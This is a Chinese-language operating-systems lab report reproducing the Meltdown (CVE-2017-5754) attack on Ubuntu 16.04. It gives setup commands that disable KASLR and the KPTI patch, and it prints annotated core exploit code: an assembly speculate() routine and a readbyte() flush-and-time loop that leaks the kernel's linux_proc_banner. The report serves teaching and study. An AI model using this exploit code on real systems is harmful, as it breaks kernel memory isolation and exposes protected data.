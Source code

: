 ## 操作系统实验四
### <center> ------Meltdown(CVE-2017-5754) Attack

-------------------------------
### 实验环境:  
 > - **Release : ** Ubuntu 16.04(LTS)
 > - **Kernel : **  Linux 4.13.0-45-generic  #x86_64
 > - **CPU : **  Intel(R) Core(TM) i7-6500U CPU @ 2.50GHz
### 实验准备：
> - 关闭KALSR
>     -  sudo perl -i -pe 'm/quiet/ and s//quiet nokaslr/' /etc/default/grub
>     - sudo update-grub 
> - 禁用kpi补丁
> - 设置CPU频率为最大性能
>     - cpufreq-set -g performance 
>     
> **检测实验环境是否满足**
>  
> ![Alt text](./2018-07-02 18-54-31屏幕截图.png)


---------------------------------------------
### 实验原理
> Meltdown 利用Intel CPU的乱序执行漏洞，通过对内存的响应时间差来建立一个侧信道攻击，以此读取整个内核空间。
> - 1.乱序执行：
> &emsp; &emsp; intel CPU中自然也是使用了乱序执行，在执行单元等待从内存中取出数据的时间间隙，执行单元会去准备后面的指令。这种行为虽然提高了工作效率，但是也会产生副作用，meltdown就是利用了该行为产生的时间差来取得信息。
> 对于非乱序执行：
> &emsp; &emsp;取指令—>运行指令—>检测到异常—>清除数据—>退出
> 但是由于乱序执行，CPU提前执行了后续的非法指令：
> &emsp; &emsp;取指令—>运行指令1—>...—>非法指令—>...—>检测异常—>清除数据—>退出
> 利用这个窗口期可以建立侧信道攻击。
> - 2.侧信道攻击：
> &emsp;&emsp;指不去攻击信道本身来获得信息，而是通过观信道双方通信时产生的其他影响，通过分析泄露的额外信息来建立映射，进而取得信息。例如可以不断遍历加载探测数组，由于该数据此时已经在缓存中，攻击者总会遍历出一个加载时间远小于其它的数据，推测哪个内存页被访问过了，从而推断出被访问的内核内存数据。

> Meltdown通过cache泄露的额外信息，建立了一个侧信道攻击，来取得非授权地址内的信息。 


> *本次实验参考了github上著名的POC* 该POC能利用应用程序读取内核中的linux_proc_banner变量，这个变量存储了Linux内核的版本信息，可以通过命令cat /proc/version获取。cat /proc/version触发了系统调用将linux_proc_banner变量的信息返回给应用程序。而利用meltdown漏洞可以直接从应用程序中访问linux_proc_banner变量，破坏了内存隔离。

------------------------------------
### 主要函数
```x86asm
speculate(unsigned long addr)
{
    asm volatile (
    "1:\n\t"

    ".rept 300\n\t"
    "add $0x141, %%rax\n\t"//加法指令，重复300次，作用是测试处理器能乱序执行成功
    ".endr\n\t"

    "movzx (%[addr]), %%eax\n\t"//将目标内核地址所指向的数据放入eax寄存器中，该操作会触发处理器异常
    "shl $12, %%rax\n\t"//左移12位，也就是乘以4K，大小与target_array数组的列相等，为推测内核地址指向的数据做准备。
    "jz 1b\n\t"
    "movzx (%[target], %%rax, 1), %%rbx\n"//以目标内核地址指向的数据乘以4096作为索引访问target_array数组，
                                          // 这时，不同的数据将会被加载到不同的缓存页面中，这个过程是典型的缓存侧信道攻击。
    "stopspeculate: \n\t"
    "nop\n\t"
    :
    : [target] "r" (target_array),
    [addr] "r" (addr)
    : "rax", "rbx"
    );
}
```

```cpp
int readbyte(int fd, unsigned long addr)//循环调用clflush_target(),speculate(addr),check()
{
    int i, ret = 0, max = -1, maxi = -1;
    static char buf[256];

    memset(hist, 0, sizeof(hist));

    for (i = 0; i < CYCLES; i++) {//为提高准确性，循环1000次攻击流程
        ret = pread(fd, buf, sizeof(buf), 0);
        if (ret < 0) {
            perror("pread");
            break;
        }

        clflush_target();//冲洗掉target_array的缓存
        _mm_mfence();

        speculate(addr);//攻击
        check();//检测不同内存数据访问的时间差异来探测被缓存过的数据
    }
    for (i = 1; i < VARIANTS_READ; i++) {
        if (!isprint(i))
            continue;
        if (hist[i] && hist[i] > max) {
            max = hist[i];
            maxi = i;
        }
    }

    return maxi;
}
```
-------------------------------------------
### 实验结果
![Alt text](./2018-07-02 20-19-56屏幕截图.png)


-------------------------------------------
> **参考资料**
> - https://github.com/paboldin/meltdown-exploit
> - http://www.cryptobadger.com/2018/01/linux-meltdown-spectre-patch-destroys-mining-hashrates-fix/
> - https://blog.hackerchai.com/meltdown-exploit-on-linux-opensource/